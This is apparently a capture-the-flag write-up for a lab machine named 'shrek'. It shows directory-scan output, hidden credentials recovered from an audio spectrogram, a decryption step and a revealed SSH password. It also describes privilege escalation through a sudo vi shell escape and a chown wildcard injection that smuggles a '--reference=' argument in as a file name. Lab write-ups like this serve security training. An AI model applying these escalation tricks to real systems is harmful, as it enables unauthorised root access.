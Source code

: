 Dirb:

---- Scanning URL: http://10.10.10.47/ ----
+ http://10.10.10.47/~bin (CODE:403|SIZE:965)
+ http://10.10.10.47/~mail (CODE:403|SIZE:965)
+ http://10.10.10.47/~nobody (CODE:403|SIZE:965)
+ http://10.10.10.47/~root (CODE:403|SIZE:965)
+ http://10.10.10.47/shrek
==> DIRECTORY: http://10.10.10.47/images/
==> DIRECTORY: http://10.10.10.47/uploads/

---- Entering directory: http://10.10.10.47/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.47/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Wed Jan 24 22:33:20 2018
DOWNLOADED: 4612 - FOUND: 4

intresting file: http://10.10.10.47/uploads/secret_ultimate.php
By reading the php file, found "/secret_area_51/" and a mp3 file

Using audacity to check the spectrogram of the mp3 and found credential:
donkey: d0nk3y1337!

Use the credential to login ftp and download a file named "key", seems like a ssh private key
print all content of the text files in the ftp and found:

UHJpbmNlQ2hhcm1pbmc=
PrinceCharming

J1x4MDFceGQzXHhlMVx4ZjJceDE3VCBceGQwXHg4YVx4ZDZceGUyXHhiZFx4OWVceDllflAoXHhmN1x4ZTlceGE1XHhjMUtUXHg5YUlceGRkXFwhXHg5NXRceGUxXHhkNnBceGFhInUyXHhjMlx4ODVGXHgxZVx4YmNceDAwXHhiOVx4MTdceDk3XHhiOFx4MGJceGM1eVx4ZWM8Sy1ncDlceGEwXHhjYlx4YWNceDlldFx4ODl6XHgxM1x4MTVceDk0RG5ceGViXHg5NVx4MTlbXHg4MFx4ZjFceGE4LFx4ODJHYFx4ZWVceGU4Q1x4YzFceDE1XHhhMX5UXHgwN1x4Y2N7XHhiZFx4ZGFceGYwXHg5ZVx4MWJoXCdRVVx4ZTdceDE2M1x4ZDRGXHhjY1x4YzVceDk5dyc=

It turns out this huge string is seccure ciphered, decrypt with:
seccure.decrypt(ciphertext, b'my private key')

will get result:
'The password for the ssh file is: shr3k1sb3st! and you have to ssh in as: sec\n'

Priv Esc:

[sec@shrek ~]$ sudo -l
User sec may run the following commands on shrek:
    (farquad) NOPASSWD: /usr/bin/vi

Pivot using:
sudo -u farquad /usr/bin/vi
run ":!/bin/bash" in vim


In /usr/src folder, "chown *" is being executed every 5 minutes. All we need to do is to add a "--reference=thoughts.txt" and an bash executable files and wait till the command is being run. After that, our file will have root privilege and done.

References:
https://ctf-wiki.github.io/ctf-wiki/misc/audio/index.html
https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt
